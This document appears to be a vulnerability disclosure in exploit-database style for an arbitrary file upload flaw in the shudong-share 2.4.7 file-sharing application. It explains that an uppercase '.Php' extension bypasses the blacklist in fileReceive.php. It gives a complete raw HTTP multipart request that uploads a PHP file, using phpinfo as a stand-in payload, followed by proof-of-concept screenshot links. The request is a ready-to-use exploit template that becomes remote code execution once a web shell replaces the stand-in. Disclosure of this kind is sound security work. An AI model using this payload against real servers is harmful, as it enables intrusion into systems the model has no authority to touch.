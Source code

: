 Exploit Title: shudong-share Any File Upload

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://github.com/HFO4/shudong-share

Software Link: https://github.com/HFO4/shudong-share

CMSName: shudong-share

Tested on: Windows, Nginx ,Mysql

Description

The reason for the vulnerability of arbitrary file upload is that the website application allows users to add any type of upload file extension in the management background, bypassing the whitelist restriction code. In addition, the fileReceiver. php code also performs a second blacklist check but can be bypassed using uppercase Php, resulting in arbitrary file upload.

    Payload used:
    POST /shudong-share-2.4.7/shudong-share-2.4.7/includes/fileReceive.php HTTP/1.1
    Host: 192.168.101.142
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzhrFFsicJe3Nlb5g
    Content-Length: 195
    
    ------WebKitFormBoundaryzhrFFsicJe3Nlb5g
    Content-Disposition: form-data; name="file";filename="1.Php"
    Content-Type: image/png
    
    <?php phpinfo();?>
    ------WebKitFormBoundaryzhrFFsicJe3Nlb5g--

Proof of Concept
![image](https://github.com/user-attachments/assets/d3deec05-98f3-490d-bea2-cc0680f2bf3c)
![image](https://github.com/user-attachments/assets/17d1b63d-767a-426f-b5f7-4271bd1f6ff5)
![image](https://github.com/user-attachments/assets/a6322441-0c5e-4e79-aea5-0b7091bf867a)
![image](https://github.com/user-attachments/assets/ea0d0976-2b1a-4ec6-a80f-9bf44fbb188d)


